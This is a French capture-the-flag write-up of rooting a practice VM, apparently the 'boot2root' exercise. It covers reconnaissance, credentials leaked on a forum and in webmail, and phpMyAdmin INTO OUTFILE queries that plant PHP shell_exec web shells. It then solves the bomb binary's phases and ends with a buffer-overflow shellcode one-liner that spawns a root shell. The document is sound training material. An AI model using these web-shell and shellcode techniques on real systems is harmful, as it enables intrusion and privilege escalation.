

# Writeup1

Prenons pour exemple que l'ip de la machine est 10.11.200.204.

### Get open port

Pour récupérer l'ip de la machine il faut lancer le script `./ip_machine [VM_name]`.<br>
Grâce à nmap:  `nmap  $(./ip_machine [VM_name])` nous pouvons voir les ports ouverts:

```
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```

### Installe DIRB and Get Info

Il faut installer toutes les dépendances avec notre script `./setup`.<br>
Puis nous pouvons faire.<br>
`dirb  https://$(./ip_machine [VM_name]) ./small.txt -w`.<br>
Du coup nous pouvons voir les accès intéressant:<br>

- `/forum`
- `/webmail`
- `/phpmyadmin`

`https://10.11.200.204/forum`:

Dans le forum, nous avons un post qui demande de l'aide sur sa connexion ssh, avec un mot de passe visible (à la place de l'utilisateur).<br>
L'auteur du message est : `lmezard`, et le mot de passe utilisé est : `!q\]Ej?*5K5cy*AJ`.<br>
Grâce à ces informations, nous pouvons utiliser ces logins pour ce connecter sur le forum, et voir son mail qui est: laurie@borntosec.net<br>
`https://10.11.200.204/webmail`:<br>
Grâce au mail, nous pouvons se connecter sur le webmail avec `laurie@borntosec.net` et `!q\]Ej?*5K5cy*AJ`.<br>
Nous pouvons voir un mail qui contient les identifiants BDD : `root` et `Fg-'kKXBj87E:aJ$`.

### Exploit PHPMyAdmin

`https://10.11.200.204/phpmyadmin`:<br>
Avec ces identifiants, nous pouvons nous connecter sur `PHPMYADMIN`.<br>
Après plusieurs recherche sur les différentes failles de sécurité de `PHPMYADMIN` nous avons pu trouver cet article: `http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2`.<br>
Apres plusieurs tests:<br>
`select "<?php $out = shell_exec('ls -la /'); echo '<pre>' . $out . '</pre>'; ?>" into outfile "/var/www/forum/templates_c/ls.php";`.<br>
On peut voir le résultat ici : https://10.11.200.204/forum/templates_c/ls.php.<br>
`select "<?php $out = shell_exec('ls -laR /home'); echo '<pre>' . $out . '</pre>'; ?>" into outfile "/var/www/forum/templates_c/home.php";`.<br>
On peut voir le résultat ici : https://10.11.200.204/forum/templates_c/home.php.<br>
Nous avons pu voir un fichier password dans `/home/LOOKATME`, nous allons pouvoir voir son contenu.<br>
`select "<?php $out = shell_exec('cat /home/LOOKATME/password'); echo '<pre>' . $out . '</pre>'; ?>" into outfile "/var/www/forum/templates_c/password.php";`.<br>
On peut voir le résultat ici : https://10.11.200.204/forum/templates_c/password.php.<br>
Ce qui donne comme résultat:  `lmezard:G!@M6f4Eatau{sF"`.

### Connection FTP

Nous pouvons maintenant ce connecter en `ftp` avec ces identifiants.<br>
`ftp $(./ip_machine [VM_name])` et mettre les identifiants.<br>
Nous pouvons voir 2 fichiers `README` et `fun`.

### Crack fun :D

Nous allons pouvoir récupérer le fichier `fun`: `get fun`.<br>
Lancer la commande `tar xf fun`.<br>
Maintenant nous pouvons lancer la commande `node crackFun ft_fun`.

### Connection to SSH 

user : `laurie`
mdp: `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

### Install PEDA

`scp -r ${HOME}/goinfre/peda laurie@$(./ip_machine [VM_name]):/home/laurie`
`echo "source ~/peda/peda.py" >> ~/.gdbinit`

## Exploit Bomb

`open ~/goinfre/ghidra_9.1-BETA_DEV`

### STEP 1
On peut voir qu'il fait une comparaison entre l'entrée utilisateur et une chaine de caractères en dur.
<br>
`Public speaking is very easy.`<br>

### STEP 2
On peut voir que 6 arguments sont attendus et que le premier argument est `1` puis l'argument est multiplié par son emplacement.<br>
Le premier argument est à l'emplacement 2.<br>
<br>
Reste à faire le calcul, ce qui donne:<br>
`1 2 6 24 120 720`<br>

### STEP 3
On peut voir que la solution ressemble à `%d %c %d` soit: nombre, caractère, nombre.<br>
<br>
En utilisant ghidra, nous pouvons voir, que le premier argument est situé entre `0 et 7`.<br>
que si le premier vaut 1 le char est b, et le dernier argument doit-être égal à `214`.
soit:<br>
`1 b 214`<br>


### STEP 4
D'après cette fonction, on peut déterminer que `param_1` doit valoir **`9`**.<br>
<br>
On peut trouver ce résultat grâce à la fonction présentée dans "_ressources/writup1/phase_4.c_".<br>
Il est à noter que c'est la seule étape pour laquelle le nombre d'arguments n'est pas vérifié.<br>
En entrant non pas `9`, mais `9 austinpowers`, une phase secrete apparaitra après la phase 6.<br>


### STEP 5
La chaine attendue est une chaine de 6 caractères dont le premier est un 'o'.<br>
Un ET logique est effectue sur chaque caractere pour obtenir l'index entre 0 et 15 d'un element d'une table de comparaison.<br>
Ce qui permet d'obtenir un grand nombre de combinaisons.<br>

```
opekmq opekma opekmQ opekmA opekm1 o`ekma
```
<br>
La bonne combinaison est la premiere possibilite en utilisant une base alphanumerique commencant par les minuscules.
soit:

`opekmq`


### STEP 6

6 chiffres sont attendus allant de 1 à 6 sans doublons. Le premiers chiffre est 4.<br>
`4 2 6 3 1 5`<br>


### SECRET STEP

En ayant entré `9 austinpowers` lors de la phase 4, une étape secrète apparait ici.<br>
Un seul nombre est attendu ici, ce nombre doit être supérieur à 1000.<br>
Il s'agit de `1001` (0b1001 == 9).<br>
voilà voilà...<br>


## CONNECTION TO THOR

En concatenant les mots de passe précedent (sans espaces), nous obtenons le mot de passe:<br>
```Publicspeakingisveryeasy.126241207201b2149opekmq426315```<br>
Sur le forum, est dit d'inverser les lettres 'v' et 'w' qui sont les dernieres lettres de l'alphabet -2 et -3<br>
Ce qui donne le mot de passe final: <br>
```Publicspeakingisveryeasy.126241207201b2149opekmq426135```<br>


## CONNECTION TO ZAZ

Dans la home de thor se trouve un fichier "turtle".<br>
Ce fichier peut être séparé en 5 parties selon les lignes vides.<br>
Ces correspondent correspondent aux instructions d'un programme turtle reproduit dans resolve_turtle.py.<br>
En éxécutant chaque série d'instructions, on obtient le mot de passe `SLASH`. Qui ne fonctionne pas.<br>
En revanche le md5 de "SLASH" fonctionne: `646da671ca01bb5d84dbb5fb2238dc8e`.

## SESSION DE ZAZ

Dans la session de zaz se trouve un exécutable root `exploit_me`.
Il suffit de faire une attaque par buffer overflow.<br>
`./exploit_me $(python -c 'print "\x90" * 80 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "\x90\xf8\xff\xbf" * 10')`

# WE ARE ROOT

```
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```

